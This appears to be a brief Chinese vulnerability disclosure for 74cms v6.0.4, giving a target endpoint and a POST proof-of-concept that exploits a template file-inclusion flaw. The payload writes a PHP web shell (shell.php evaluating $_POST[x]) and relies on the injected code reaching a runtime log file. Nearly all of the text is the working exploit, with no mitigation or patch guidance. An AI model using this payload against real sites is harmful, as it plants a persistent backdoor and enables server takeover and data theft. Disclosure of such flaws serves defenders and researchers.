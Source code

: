 74cms v6.0.4存在文件包含getshell

地址：

```
http://localhost/index.php?m=home&a=assign_resume_tpl
```

![image-20250326092114339](image/image-20250326092114339.png)

poc：

```
post:

variable=1&tpl=<?php phpinfo();ob_flush();?><?php fputs(fopen("shell.php","w"),"<?php eval(/$_POST[x]);?>")?>; ob_flush();?>/r/n<qscms/company_show 列表名="info" 企业id="$_GET['id']"/>
```

![image-20250326132939207](image/image-20250326132939207.png)

会产生日志/data/Runtime/Logs/Home/25_03_26.log

![image-20250326133609849](image/image-20250326133609849.png)
